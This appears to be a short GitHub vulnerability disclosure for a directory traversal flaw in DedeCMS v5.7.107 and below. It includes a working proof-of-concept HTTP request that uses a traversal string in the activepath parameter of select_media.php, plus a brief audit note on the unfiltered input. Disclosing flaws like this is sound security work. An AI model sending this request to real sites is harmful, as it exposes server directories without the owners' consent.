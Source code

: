 # dedecms-Directory-Traversal
DedeCMS v5.7.107 Directory Traversal

dedecms is a website building system. Its v5.7.107 and below have a directory traversal vulnerability. An attacker can traverse server directories

poc:
```
GET /include/dialog/select_media.php?f=&activepath=\uploads\media\..\..\..\..\ HTTP/1.1
Host: 192.168.1.103
Cookie: PHPSESSID=ggcnj9euppapcl74tjh59hqri6;
Connection: close

```
![image](https://user-images.githubusercontent.com/65259880/234688888-62010cbe-3d20-44e4-8d41-fda1cfe9c467.png)

White box audit:
Vulnerability location: include\dialog\select_media.php
Lines 20 and 21 do not completely filter the parameters passed in by the user. If the system is windows, it can be bypassed

![image](https://user-images.githubusercontent.com/65259880/234688993-e8bc060e-44f2-45ed-b2b3-4e948579c759.png)

 
